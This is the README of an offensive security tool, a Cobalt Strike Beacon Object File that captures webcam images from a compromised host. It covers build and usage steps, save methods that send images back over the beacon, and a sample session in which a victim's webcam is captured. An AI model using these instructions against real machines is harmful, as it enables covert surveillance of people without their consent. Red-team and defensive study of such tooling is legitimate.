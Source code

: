 # WebcamBOF 📸

Webcam capture capability for Cobalt Strike, implemented as a Beacon Object File (BOF)

## Self Compilation
1. git clone the repo
2. run `make`

## Save methods:  
0. drop file to disk
1. download file over beacon (Cobalt Strike only)
2. download file over beacon as a screenshot (Cobalt Strike only)

## Usage
1. import the webcamBOF.cna script into Cobalt Strike
2. use the command webcam_bof {filename} {save method 0/1/2}
  
```
beacon> webcam_bof sad.jpeg 2
[*] Running Webcam BOF by (@codex_tf2)
[+] host called home, sent: 35817 bytes
[+] received output:

[*] Initializing webcam
[+] received output:

[*] Device 0: HP 320 FHD Webcam
[+] received output:

[*] Capturing image data
[+] received output:
[*] Downloading JPEG over beacon as a screenshot
[*] received screenshot of Webcam from Admin (328kb)
```
Note: the following error
```
[*] Capturing image data
[+] received output:
[ERROR] ReadSample failed with HRESULT: 0xc00d3704
```
usually indicates that the webcam is currently in use.

## Notes


## Why did I make this?
Cobalt Strike did not originally have a built in webcam capability, nor did open source alternatives exist to my knowledge. And it was a fun (not) idea.

## Credits
- Webcam code from https://github.com/OV2/WebcamImage
- Save BMP to file from https://stackoverflow.com/a/60667564
- in memory download from https://github.com/anthemtotheego/CredBandit
- bitmap to jpeg from https://github.com/WKL-Sec/HiddenDesktop

## Disclaimer
usual disclaimer here, I am not responsible for any crimes against humanity you may commit or nuclear war you may cause using this piece of poorly written code.
